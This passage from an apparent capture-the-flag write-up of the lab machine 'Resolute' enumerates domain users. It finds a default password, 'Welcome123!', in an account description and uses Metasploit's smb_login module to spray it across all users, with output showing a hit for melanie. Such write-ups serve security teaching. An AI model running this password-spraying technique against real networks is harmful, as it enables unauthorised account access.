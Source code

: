```
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
...
```

We see there are quite a few users which we will add to a file for later use. After looking at some of the output more closely, we see an important line:

```index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!```

We can try to log in to SMB as Marko.

```
# smbclient -L resolute.htb -U "marko"
Enter WORKGROUP\marko's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

The credentials weren't right for Marko but the password looks like a default password. We should try this password with every user to see if someone hasn't changed their password. There is a Metasploit module for this that we can use.

```
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS resolute.htb
RHOSTS => resolute.htb
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass Welcome123!
SMBPass => Welcome123!
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.169:445      - 10.10.10.169:445 - Starting SMB login bruteforce
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\Administrator:Welcome123!',
[!] 10.10.10.169:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\Guest:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\krbtgt:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\DefaultAccount:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\ryan:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\marko:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\sunita:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\abigail:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\marcus:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\sally:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\fred:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\angela:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\felicia:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\gustavo:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\ulf:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\stevie:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\claire:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\paulo:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\steve:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\annette:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\annika:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\per:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\claude:Welcome123!',
[+] 10.10.10.169:445      - 10.10.10.169:445 - Success: '.\melanie:Welcome123!'
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\zach:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\simon:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\naoki:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: '.\:Welcome123!',